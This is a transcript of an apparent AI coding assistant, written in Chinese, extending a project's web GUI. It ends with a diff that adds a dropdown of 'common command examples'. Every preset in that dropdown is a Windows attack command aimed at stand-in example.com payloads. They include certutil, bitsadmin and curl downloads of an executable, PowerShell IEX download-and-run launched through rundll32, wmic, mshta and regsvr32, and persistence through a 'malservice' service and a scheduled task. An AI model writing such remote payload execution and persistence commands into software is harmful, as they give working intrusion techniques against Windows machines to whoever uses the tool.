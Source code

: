 让我检查主JavaScript文件，看看如何实现随机命令的功能：

---

<details><summary>Grep search for "feeling-lucky" • **1** files</summary></details>

---

让我查看main.js来了解随机命令功能的实现：

---

Read file: gui/assets/js/main.js

---

接下来，我要看看是否有一些代码已经支持随机命令的生成：

---

Read file: gui/assets/js/main.js

---

根据对项目的理解，我需要创建一个包含常见命令示例的列表，并添加到界面中。最合适的做法是创建一个下拉菜单或者列表，用户可以选择一个预设的命令，如`certutil -urlcache -split -f http://xxx.com/xx.exe`等。

我将修改`gui/index.html`添加一个常见命令列表。下面是我的方案：

---

```diff
  header: |
              <div class="tools">
+                             <div class="command-examples">
+                                 <a class="button" id="common-commands-btn" aria-haspopup="listbox" aria-expanded="false" role="combobox" tabindex="0"><strong>常见命令示例</strong></a>
+                                 <menu class="context-menu" id="common-commands-menu" aria-labelledby="common-commands-btn" tabindex="-1" role="listbox">
+                                     <li role="option" data-command="certutil -urlcache -split -f http://example.com/payload.exe C:\Windows\Temp\payload.exe">远程下载文件 (certutil)</li>
+                                     <li role="option" data-command="powershell -c \"(New-Object System.Net.WebClient).DownloadFile('http://example.com/payload.exe', 'C:\\Windows\\Temp\\payload.exe')\"">远程下载文件 (PowerShell)</li>
+                                     <li role="option" data-command="bitsadmin /transfer myJob /download /priority high http://example.com/payload.exe C:\Windows\Temp\payload.exe">远程下载文件 (bitsadmin)</li>
+                                     <li role="option" data-command="curl -o C:\Windows\Temp\payload.exe http://example.com/payload.exe">远程下载文件 (curl)</li>
+                                     <li role="option" data-command="rundll32.exe javascript:\"\..\mshtml,RunHTMLApplication \";document.write();new%20ActiveXObject(\"WScript.Shell\").Run(\"powershell -nop -exec bypass -c IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')\");">执行远程PowerShell (rundll32)</li>
+                                     <li role="option" data-command="mshta vbscript:Close(Execute(\"GetObject(\"\"script:http://example.com/payload.sct\"\")\"))">执行远程脚本 (mshta)</li>
+                                     <li role="option" data-command="regsvr32 /s /u /i:http://example.com/payload.sct scrobj.dll">执行远程脚本 (regsvr32)</li>
+                                     <li role="option" data-command="wmic process call create \"powershell -c IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')\"">执行远程PowerShell (wmic)</li>
+                                     <li role="option" data-command="sc create malservice binPath= \"cmd.exe /c powershell -c IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')\" start= auto">创建恶意服务 (sc)</li>
+                                     <li role="option" data-command="schtasks /create /tn \"MyTask\" /tr \"cmd.exe /c powershell -c IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')\" /sc once /st 23:59">创建计划任务 (schtasks)</li>
+                                 </menu>
+                             </div>
```